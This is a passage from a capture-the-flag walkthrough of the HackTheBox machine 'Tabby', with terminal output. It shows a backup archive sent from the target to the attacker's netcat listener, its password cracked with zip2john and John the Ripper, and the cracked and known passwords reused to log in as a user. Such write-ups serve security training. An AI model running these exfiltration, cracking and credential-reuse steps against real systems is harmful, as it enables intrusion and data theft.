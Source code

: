 Donwload file `16162020_backup.zip` to kali machine using `nc`

```
┌──(Hades㉿10.10.14.5)-[0.5:33.0]~/walkthrough/hackthebox/tabby
└─$ sudo nc -nvlp 445 > 16162020_backup.zip
listening on [any] 445 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.194] 50276
```

This file require password to unzip.

```
┌──(Hades㉿10.10.14.5)-[0.7:14.6]~/walkthrough/hackthebox/tabby
└─$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password:
```

Let's using `zip2john` to get a hash of this file and crack it.

```
┌──(Hades㉿10.10.14.5)-[0.6:31.2]~/walkthrough/hackthebox/tabby
└─$ zip2john 16162020_backup.zip > hash
```

Using directory rockyou.txt to crack file hash and I got the password `admin@it`

```
┌──(Hades㉿10.10.14.5)-[0.6:31.2]~/walkthrough/hackthebox/tabby
└─$ john hash --wordlist=/home/kali/directory/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2021-04-08 11:05) 0.6944g/s 7196Kp/s 7196Kc/s 7196KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Unzip this file but I don't have more info, this is only backup file for the web application.

```
┌──(Hades㉿10.10.14.5)-[0.6:31.3]~/walkthrough/hackthebox/tabby
└─$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```

In the other way, I try to login to user `ash` with some knowed password `$3cureP4s5w0rd123!` and `admin@it`.
